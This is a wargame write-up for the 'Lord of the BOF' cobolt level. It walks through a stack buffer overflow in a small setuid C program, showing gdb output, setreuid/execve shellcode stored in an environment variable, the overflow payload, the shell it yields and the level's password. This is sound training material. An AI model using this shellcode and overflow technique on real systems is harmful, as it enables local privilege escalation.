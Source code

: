 # Level2

## This level's goal 
- LEVEL2 (gremlin -> cobolt) : Small Buffer

***

```
[gremlin@localhost gremlin]$ bash2
[gremlin@localhost gremlin]$ ls -l
total 16
-rwsr-sr-x    1 cobolt   cobolt      11970 Feb 26  2010 cobolt
-rw-r--r--    1 gremlin  gremlin       291 Mar 29  2010 cobolt.c
[gremlin@localhost gremlin]$ cat cobolt.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - cobolt
        - small buffer
*/

int main(int argc, char *argv[])
{
    char buffer[16];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

This level's code seems like level1 but there is the difference of buffer' small size.

If you use the shell code (ex. 25bytes) will be problem but I will use with env variable I used in level1.

First thing I need is te get information of memory structure.

```
[gremlin@localhost gremlin]$ gdb -q cobolt
(gdb) set disass intel
(gdb) disass main
0x8048433 <main+3>:     sub    %esp,16
0x804845c <main+44>:    lea    %eax,[%ebp-16]
```

The buffer is only ebp-16, so there is no dummy in here.

So, the memory will be buffer(16bytes) + SFP(4bytes) + RET(4bytes).

```
[gremlin@localhost gremlin]$ export EGG=`python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
[gremlin@localhost gremlin]$ echo 'int main() { printf("EGG -> 0x%x\n", getenv("EGG")); } ' > getegg.c
[gremlin@localhost gremlin]$ gcc getegg.c -o getegg
[gremlin@localhost gremlin]$ ./getegg
EGG -> 0xbffffea2
```

Then the payload will be the dummy strings(20bytes, buffer+SFP) + the shell code's address.

```
[gremlin@localhost gremlin]$ ./cobolt `python -c 'print "A"*20+"\xa2\xfe\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAA¢þÿ¿
bash$ id
uid=502(cobolt) gid=501(gremlin) egid=502(cobolt) groups=501(gremlin)
bash$ my-pass
euid = 502
hacking exposed
```
